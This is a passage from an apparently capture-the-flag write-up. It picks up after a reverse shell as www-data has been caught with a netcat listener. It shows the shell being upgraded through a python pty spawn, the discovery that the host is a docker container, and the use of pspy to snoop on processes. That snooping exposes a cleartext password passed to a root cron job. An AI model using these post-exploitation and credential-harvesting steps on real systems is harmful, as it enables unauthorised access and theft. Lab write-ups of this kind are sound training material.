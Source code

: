 # Privesc to user
Now that we have a shell on the system as www-data, let us upgrade our shell and enumerate the system as www-data.

```bash
www-data@8d8f7bbd30e4:/var/www/html/docx2pdf$ python3 -c 'import pty;pty.spawn("/bin/bash")'
<pdf$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@8d8f7bbd30e4:/var/www/html/docx2pdf$ ^Z
[1]+  Stopped                 nc -lnvp 443
root@silence:~/# stty raw -echo
root@silence:~/# nc -lnvp 443
www-data@8d8f7bbd30e4:/var/www/html/docx2pdf$ export TERM=xterm
```
Now that we have a fully working shell, let us enumerate the system.

## Enumeration as www-data
Right off the bat, I noticed the strange looking hostname, which could suggest that we are in a docker container.
```bash
www-data@8d8f7bbd30e4:/$ ls -alh
total 88K
drwxr-xr-x   1 root root 4.0K May 13 18:23 .
drwxr-xr-x   1 root root 4.0K May 13 18:23 ..
-rwxr-xr-x   1 root root    0 May 13 18:23 .dockerenv
```
Checking the root directory, we indeed seem to be in a docker container. After some basic linux enumeration, which did not lead anywhere, I decided to upload [pspy](https://github.com/DominicBreuker/pspy) to the box and check if there are any interesting processes running.

```bash
www-data@8d8f7bbd30e4:/tmp$ ./pspy
pspy - version: v1.2.0 - Commit SHA: 9c63e5d6c58f7bcdc235db663f5e3fe1c33b8855


     ██▓███    ██████  ██▓███ ▓██   ██▓
    ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
    ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
    ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
    ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░                                                                                                                                                                                                       
    ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒
    ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░
    ░░       ░  ░  ░  ░░       ▒ ▒ ░░
                   ░           ░ ░
                               ░ ░

Config: Printing events (colored=true): processes=true | file-system-events=false ||| Scannning for processes every 100ms and on inotify events ||| Watching directories: [/usr /tmp /etc /home /var /opt] (recursive) | [] (non-recursive)
Draining file system events due to startup...
done
2020/05/13 18:37:37 CMD: UID=0    PID=9      | /bin/sh /usr/sbin/apachectl -D FOREGROUND
[...]
2020/05/13 18:38:01 CMD: UID=0    PID=172    | /bin/sh -c env PASSWORD="!gby0l0r0ck\$\$!" /opt/checker_client/run_file.sh
```
Running pspy, we seem to have a password in the environment variable PASSWORD.
